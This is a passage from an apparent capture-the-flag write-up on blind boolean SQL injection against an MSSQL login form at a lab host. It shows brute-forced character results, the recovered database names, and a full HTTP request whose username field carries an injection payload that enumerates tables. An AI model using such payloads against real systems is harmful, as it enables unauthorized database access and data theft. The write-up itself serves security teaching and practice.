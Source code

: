 For OFFSET at `0` we got the following results:

```powershell
| 0   |   |   | 200 | false | false | 1782 | 1 |  |
|-----|---|---|-----|-------|-------|------|---|--|
| 601 | 1 | m | 200 | false | false | 1782 | 1 |  |
| 602 | 2 | m | 200 | false | false | 1782 | 1 |  |
| 3   | 3 | a | 200 | false | false | 1782 | 1 |  |
| 904 | 4 | s | 200 | false | false | 1782 | 1 |  |
| 955 | 5 | t | 200 | false | false | 1782 | 1 |  |
| 206 | 6 | e | 200 | false | false | 1782 | 1 |  |
| 857 | 7 | r | 200 | false | false | 1782 | 1 |  |
```

Which gave us the name `mmaster` where we can remove the first arbitrary `m` we add. After running four (4) times the intruder, we got the following databases names:

```md
0 : master
1 : model
2 : msdb
3 : photographic_memory
4 : tempdb
```

> **Note** : I just realized that we could also add an iterator `§` on the `OFFSET` to run the intruder only once ...

#### Tables

Now that we found the databases, we have to run the same kind of exercise to identify the tables. We choose to iterate on the `photographic_memory` which is probably the database of the current application.

To do that we use almost the same request but we iterate on `photographic_memory..sysobjects` instead of `master..sysdatabases`:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 211
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bname FROM photographic_memory..sysobjects WHERE xtype = 'U' ORDER BY name OFFSET 1 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```
